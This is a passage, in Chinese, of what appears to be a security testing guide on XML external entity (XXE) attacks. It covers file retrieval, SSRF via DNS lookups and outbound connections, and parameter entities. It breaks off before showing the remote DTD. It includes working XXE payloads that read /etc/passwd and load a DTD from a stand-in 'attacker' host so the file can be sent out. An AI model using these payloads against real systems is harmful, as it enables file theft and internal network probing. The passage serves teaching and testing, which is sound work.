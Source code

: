 #### 反射文件检索

考虑以下 XXE 示例代码：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
 <!ELEMENT includeme ANY>
 <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<root>&xxe;</root>
```

**前面的 XML 定义了一个名为 `xxe` 的实体，实际上是 `/etc/passwd` 的内容，将在 `includeme` 标签中展开。如果解析器允许引用外部实体，它可能在 XML 响应或错误输出中包含该文件的内容。**

#### 服务器端请求伪造（SSRF）

**服务器端请求伪造（SSRF）发生在服务器接收到恶意 XML 模式时，使服务器通过 HTTP/HTTPS/FTP 等检索远程资源。**SSRF 已被用于检索远程文件、在无法反射文件时证明 XXE，或对内部网络执行端口扫描或暴力攻击。

##### 外部 DNS 解析

**有时可以诱导应用程序对任意域名执行服务器端 DNS 查找。**这是 SSRF 最简单的形式之一，但需要攻击者分析 DNS 流量。Burp 有一个检查此类攻击的插件。

```xml
<!DOCTYPE m PUBLIC "-//B/A/EN" "http://checkforthisspecificdomain.example.com">
```

##### 外部连接

当存在 XXE 且无法检索文件时，可以测试是否能建立远程连接：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
 <!ENTITY % xxe SYSTEM "http://attacker/evil.dtd">
 %xxe;
]>
```

##### 使用参数实体的文件检索

参数实体允许使用 URL 引用检索内容。考虑以下恶意 XML 文档：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://attacker/evil.dtd">
 %dtd;
]>
<root>&send;</root>
```

这里的 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 定义了两个外部参数实体：`file` 加载本地文件，`dtd` 加载远程 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)。远程 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 应包含类似以下内容：
